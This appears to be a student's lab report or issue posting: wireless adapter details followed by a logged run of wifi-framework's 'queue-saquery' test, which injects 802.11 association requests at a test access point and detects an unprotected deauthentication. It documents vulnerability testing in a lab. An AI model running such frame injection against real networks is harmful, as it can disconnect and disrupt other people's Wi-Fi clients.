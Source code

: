 OS: Ubuntu 22.04.5 LTS
Wireless card:
05:00.0 Network controller: Qualcomm Atheros AR9287 Wireless Network Adapter (PCI-Express) (rev 01)
06:00.0 Network controller: Qualcomm Atheros AR93xx Wireless Network Adapter (rev 01)
Drivers: 
*-network
       description: Wireless interface
       product: AR9287 Wireless Network Adapter (PCI-Express)
       vendor: Qualcomm Atheros
       physical id: 0
       bus info: pci@0000:05:00.0
       logical name: wlp5s0
       version: 01
       serial: 30:b5:c2:67:a4:32
       width: 64 bits
       clock: 33MHz
       capabilities: pm msi pciexpress bus_master cap_list ethernet physical wireless
       configuration: broadcast=yes driver=ath9k driverversion=6.8.0-45-generic firmware=N/A latency=0 link=no multicast=yes wireless=IEEE 802.11
       resources: irq:18 memory:f7d00000-f7d0ffff
  *-network
       description: Wireless interface
       product: AR93xx Wireless Network Adapter
       vendor: Qualcomm Atheros
       physical id: 0
       bus info: pci@0000:06:00.0
       logical name: wlp6s0
       version: 01
       serial: e8:de:27:13:0f:13
       width: 64 bits
       clock: 33MHz
       capabilities: pm msi pciexpress bus_master cap_list rom ethernet physical wireless
       configuration: broadcast=yes driver=ath9k driverversion=6.8.0-45-generic firmware=N/A latency=0 link=no multicast=yes wireless=IEEE 802.11
       resources: irq:19 memory:f7c00000-f7c1ffff memory:f7c20000-f7c2ffff

iw wlp5s0 info :
(base) student@ubuntu:~/Desktop$ iw wlp5s0 info
Interface wlp5s0
	ifindex 3
	wdev 0x1
	addr 30:b5:c2:67:a4:32
	type AP
	wiphy 0
	txpower 16.00 dBm
	multicast TXQ:
		qsz-byt	qsz-pkt	flows	drops	marks	overlmt	hashcol	tx-bytes	tx-packets
		0	0	73	0	0	0	0	10108		73

iw wlp6s0 info :
Interface wlp6s0
	ifindex 4
	wdev 0x100000001
	addr e8:de:27:13:0f:13
	type managed
	wiphy 1
	txpower 16.00 dBm
	multicast TXQ:
		qsz-byt	qsz-pkt	flows	drops	marks	overlmt	hashcol	tx-bytes	tx-packets
		0	0	0	0	0	0	0	0		0


Prove of concept(PC z sali atakujacy na pc Maćka) : 
(base) student@ubuntu:~/Desktop/wifi-framework$ sudo ./run.py wlp6s0 queue-saquery
[10:17:41] Using interface monwlp6s0 (ath9k) to inject frames.
[10:17:41] Starting daemon using: ./dependencies/hostap_2_10/wpa_supplicant/wpa_supplicant -Dnl80211 -i wlp6s0 -c ./setup/supplicant.conf -W -K
Successfully initialized wpa_supplicant
nl80211: kernel reports: Match already configured
nl80211: kernel reports: Match already configured
nl80211: kernel reports: Match already configured
nl80211: kernel reports: Match already configured
nl80211: kernel reports: Match already configured
nl80211: kernel reports: Match already configured
nl80211: kernel reports: Match already configured
nl80211: kernel reports: Match already configured
nl80211: kernel reports: Match already configured
nl80211: kernel reports: Match already configured
nl80211: kernel reports: Match already configured
nl80211: kernel reports: Match already configured
nl80211: kernel reports: Match already configured
nl80211: kernel reports: Match already configured
nl80211: kernel reports: Match already configured
nl80211: kernel reports: Match already configured
nl80211: kernel reports: Match already configured
nl80211: kernel reports: Match already configured
nl80211: kernel reports: Match already configured
nl80211: kernel reports: Match already configured
nl80211: kernel reports: Match already configured
nl80211: kernel reports: Match already configured
nl80211: kernel reports: Match already configured
nl80211: kernel reports: Match already configured
nl80211: kernel reports: Match already configured
wlp6s0: SME: Trying to authenticate with a0:51:0b:65:8e:70 (SSID='testnetwork' freq=2412 MHz)
wlp6s0: SME: Trying to authenticate with a0:51:0b:65:8e:70 (SSID='testnetwork' freq=2412 MHz)
wlp6s0: PMKSA-CACHE-ADDED a0:51:0b:65:8e:70 0
wlp6s0: Trying to associate with a0:51:0b:65:8e:70 (SSID='testnetwork' freq=2412 MHz)
wlp6s0: Associated with a0:51:0b:65:8e:70
wlp6s0: CTRL-EVENT-SUBNET-STATUS-UPDATE status=0
wlp6s0: WPA: Key negotiation completed with a0:51:0b:65:8e:70 [PTK=CCMP GTK=CCMP]
wlp6s0: CTRL-EVENT-CONNECTED - Connection to a0:51:0b:65:8e:70 completed [id=0 id_str=]
[10:17:43] Loaded pairwise and group encryption keys.
[10:17:43] Trigger = Connected.
[10:17:43] Generating queue-saquery test case.
[10:17:44] Injected <Dot11  subtype=Association Request type=Management FCfield=pw-mgt addr1=a0:51:0b:65:8e:70 (RA=DA) addr2=e8:de:27:13:0f:13 (TA=SA) addr3=a0:51:0b:65:8e:70 (BSSID/STA) |<Dot11AssoReq  |<Dot11Elt  ID=SSID info=b'testnetwork' |<Dot11Elt  ID=Supported Rates info=b'\x02\x04\x0b\x16\x0c\x12\x18$' |<Dot11Elt  ID=Extended Supported Rates info=b'0H`l' |<Raw  load=b'0\x1a\x01\x00\x00\x0f\xac\x04\x01\x00\x00\x0f\xac\x04\x01\x00\x00\x0f\xac\x08\xc0\x00\x00\x00\x00\x0f\xac\x06' |>>>>>>
[10:17:46] Injected <Dot11  subtype=Association Request type=Management addr1=a0:51:0b:65:8e:70 (RA=DA) addr2=e8:de:27:13:0f:13 (TA=SA) addr3=a0:51:0b:65:8e:70 (BSSID/STA) |<Dot11AssoReq  |<Dot11Elt  ID=SSID info=b'testnetwork' |<Dot11Elt  ID=Supported Rates info=b'\x02\x04\x0b\x16\x0c\x12\x18$' |<Dot11Elt  ID=Extended Supported Rates info=b'0H`l' |<Raw  load=b'0\x1a\x01\x00\x00\x0f\xac\x04\x01\x00\x00\x0f\xac\x04\x01\x00\x00\x0f\xac\x08\xc0\x00\x00\x00\x00\x0f\xac\x06' |>>>>>>
[10:17:50] 802.11 Management Deauthentication a0:51:0b:65:8e:70 (TA=SA) > e8:de:27:13:0f:13 (RA=DA) / Dot11Deauth
[10:17:50] Detected an unprotected deauthentication frame from AP.
[10:17:50] Trigger = Received.
[10:17:52] Disconnecting.
[10:17:52] Closing daemon and cleaning up ...
wlp6s0: CTRL-EVENT-DISCONNECTED bssid=a0:51:0b:65:8e:70 reason=3 locally_generated=1
wlp6s0: CTRL-EVENT-DSCP-POLICY clear_all
wlp6s0: PMKSA-CACHE-REMOVED a0:51:0b:65:8e:70 0
wlp6s0: CTRL-EVENT-DSCP-POLICY clear_all
nl80211: deinit ifname=wlp6s0 disabled_11b_rates=0
wlp6s0: CTRL-EVENT-TERMINATING 
